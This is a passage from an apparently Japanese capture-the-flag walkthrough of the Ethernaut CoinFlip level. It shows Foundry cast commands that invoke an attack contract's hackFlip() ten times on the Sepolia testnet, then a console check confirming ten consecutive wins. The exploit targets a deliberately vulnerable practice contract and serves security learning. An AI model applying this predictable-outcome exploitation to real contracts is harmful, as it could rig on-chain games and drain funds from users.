 3 Foundry castのコマンドを使用し、`hackCoinFlip` の　`getBool`データを見れるようにする

```bash
cast call 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "getBool()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

4 `hackflip()` を10回コールする

```bash
cast send 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "hackFlip()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

- 以下のコマンドで、負けずに勝った回数を確認してください。10回達成すると、Ethernautにコントラクトのインスタンスを提出できます。

```
> x = await contract.consecutiveWins()

> x.toString()
< '10'
```

レベルが完了。

<br/>
<p align="center">
<img src="./images/complete.png" width="700" alt="Ethernaut Coinflip completed">
</p>
<br/>
